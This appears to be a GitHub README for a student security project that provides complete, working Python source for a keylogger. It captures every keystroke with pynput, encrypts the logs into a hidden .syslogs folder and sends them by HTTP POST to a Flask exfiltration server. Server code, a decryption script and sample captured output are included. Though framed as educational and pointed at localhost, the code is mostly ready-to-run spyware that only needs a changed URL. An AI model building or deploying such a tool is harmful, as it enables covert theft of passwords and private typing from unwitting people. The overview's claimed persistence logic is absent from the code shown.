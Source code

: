 # final-project-CS-keylogger-
🔐 Keylogger with Encrypted Data Exfiltration
This project demonstrates the implementation of a Python-based keylogger that logs keystrokes, encrypts the data using symmetric encryption (Fernet), and exfiltrates it to a remote Flask-based server over HTTP POST requests. It includes a kill switch, persistence logic, and encrypted log storage.

🧠 Overview
Logs every key pressed using pynput.
Encrypts logs using a Fernet key (cryptography package).
Stores logs locally in a hidden .syslogs directory.
Periodically exfiltrates encrypted logs to a local Flask server.
Kill switch supported via a kill.flag file.
Built for educational, ethical, and simulation purposes only.
🛠 Tools & Libraries Used
Python 3.10+
pynput
cryptography
Flask
Requests
Install dependencies:

pip install pynput cryptography flask requests
📁 Project Structure
KEYLOGGER/
│
├── logger.py              # Main keylogger script
├── exfil_server.py        # Flask server for data exfiltration
├── encryption.key         # Fernet key (auto-generated)
├── decrypt_log.py         # Log decryption tool
├── kill.flag              # Kill switch file (optional)
├── .syslogs/              # Encrypted logs folder
└── received_data.bin      # Server-side received payloads
🧾 Step-by-Step Guide
🔑 Step 1: Generate Encryption Key
# save as generate_key.py
from cryptography.fernet import Fernet

key = Fernet.generate_key()
with open("encryption.key", "wb") as f:
    f.write(key)

print("Encryption key generated and saved as 'encryption.key'")
Run:

python generate_key.py
🎯 Step 2: Run Exfiltration Server
# exfil_server.py
from flask import Flask, request
import datetime
import os

app = Flask(__name__)

# Create directory for logs if not present
RECEIVED_LOG_DIR = "exfil_received_logs"
os.makedirs(RECEIVED_LOG_DIR, exist_ok=True)

# Root route to verify server status
@app.route("/", methods=["GET"])
def home():
    return "🔐 Exfiltration Server is active. Awaiting POST requests at /exfil", 200

# Exfiltration endpoint supporting GET (for testing) and POST (for data)
@app.route("/exfil", methods=["GET", "POST"])
def receive_data():
    if request.method == "POST":
        payload = request.data
        timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H-%M-%S")
        source_ip = request.remote_addr
        payload_size = len(payload)

        print(f"[INFO] [{timestamp}] Received {payload_size} bytes from {source_ip}")

        filename = os.path.join(RECEIVED_LOG_DIR, f"payload_{timestamp}.bin")
        with open(filename, "wb") as f:
            f.write(b"===== PAYLOAD START =====\n")
            f.write(f"[{timestamp}] From: {source_ip}\n".encode())
            f.write(payload)
            f.write(b"\n===== PAYLOAD END =====\n")

        # Optional logging
        with open(os.path.join(RECEIVED_LOG_DIR, "exfil_log.txt"), "a") as log:
            log.write(f"[INFO] [{timestamp}] Received {payload_size} bytes from {source_ip}\n")

        return "Payload received", 200
    else:
        # GET method: friendly message for browser/testing
        return "Send a POST request with encrypted payload to /exfil", 200

if __name__ == "__main__":
    # Run on all interfaces so you can connect remotely
    app.run(host="0.0.0.0", port=5000)
Run:

python exfil_server.py
🎹 Step 3: Launch the Keylogger
# logger.py
import os
import datetime
import threading
import time
from pynput import keyboard
from cryptography.fernet import Fernet
import requests

# Constants
LOG_DIR = ".syslogs"
KEY_FILE = "encryption.key"  # Make sure this matches your file name exactly
EXFIL_URL = "http://localhost:5000/exfil"

# Load encryption key
with open(KEY_FILE, "rb") as key_file:
    key = key_file.read()

fernet = Fernet(key)
log = []

def ensure_log_dir():
    if not os.path.exists(LOG_DIR):
        os.makedirs(LOG_DIR)

def encrypt_and_store(log_data):
    ensure_log_dir()
    if log_data:
        print("[+] Flushing and encrypting logs...")  # Moved here
        encrypted_data = fernet.encrypt("".join(log_data).encode())
        timestamp = datetime.datetime.now().strftime("%Y%m%d_%H%M%S")
        filename = os.path.join(LOG_DIR, f"log_{timestamp}.bin")
        with open(filename, "wb") as f:
            f.write(encrypted_data)
        simulate_exfil(filename)

def simulate_exfil(filepath):
    try:
        with open(filepath, "rb") as f:
            data = f.read()
            response = requests.post(EXFIL_URL, data=data, timeout=5)
            if response.status_code == 200:
                print(f"[+] Exfiltrated {filepath} successfully.")
            else:
                print(f"[-] Exfiltration failed with status {response.status_code}")
    except Exception as e:
        print(f"[-] Exfiltration error: {e}")

def check_kill_switch():
    return os.path.exists("kill.flag")

def flush_log():
    global log
    if log:
        encrypt_and_store(log)
        log = []

def periodic_flush():
    while True:
        time.sleep(30)
        if check_kill_switch():
            flush_log()
            print("[*] Kill switch detected. Exiting.")
            exit()
        flush_log()

def on_press(key):
    try:
        log.append(str(key.char))
    except AttributeError:
        log.append(f"[{key}]")

def main():
    ensure_log_dir()
    print("[*] Logger started. Listening for keystrokes...")
    threading.Thread(target=periodic_flush, daemon=True).start()
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    main()
Run the logger:

python logger.py
Now type on your keyboard to generate logs. The logs will be flushed every 30 seconds.

🚫 Step 4: Kill Switch (Optional)
To stop the logger gracefully:

echo > kill.flag
The logger checks for this file every 30 seconds and terminates if found.

🔓 Step 5: Decrypt Logs
# decrypt_log.py
import os
from cryptography.fernet import Fernet

LOG_DIR = ".syslogs"

# Load encryption key
with open("encryption.key", "rb") as f:
    key = f.read()

fernet = Fernet(key)

# Get list of files in .syslogs sorted by modified time, newest first
files = sorted(
    (os.path.join(LOG_DIR, f) for f in os.listdir(LOG_DIR) if f.endswith(".bin")),
    key=os.path.getmtime,
    reverse=True
)

if not files:
    print("No log files found in .syslogs directory.")
    exit()

latest_file = files[0]
print(f"Decrypting file: {latest_file}")

with open(latest_file, "rb") as f:
    encrypted_data = f.read()

try:
    decrypted_data = fernet.decrypt(encrypted_data)
    print("Decrypted log content:")
    print(decrypted_data.decode())
except Exception as e:
    print(f"Error decrypting file: {e}")
✅ Sample Output
exfil_server.py Output Terminal

* Serving Flask app 'exfil_server'
* Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://12.0.0.2:5000
Press CTRL+C to quit
127.0.0.1 - - [11/Jun/2025 16:37:40] "GET / HTTP/1.1" 200 -
logger.py Output Terminal

[+] Logger started. Listening for keystrokes...
[+] Flushing and encrypting logs...
[+] Exfiltrated .syslogs\log_20250611_163934.bin successfully.
[*] Kill switch detected. Exiting.
decrypt_log.py Output Terminal

Decrypted log content:
[Key.caps_lock]elevateabsisthebest[Key.space][Key.space]
[Key.caps_lock]levate[Key.caps_lock]l[Key.caps_lock]abs[Key.caps_lock]i
[Key.caps_lock]s[Key.caps_lock]t[Key.caps_lock]he[Key.caps_lock]b[Key.caps_lock]e
[Key.caps_lock]s[Key.caps_lock]t[Key.space][Key.caps_lock]d[Key.caps_lock]a[Key.caps_lock]r
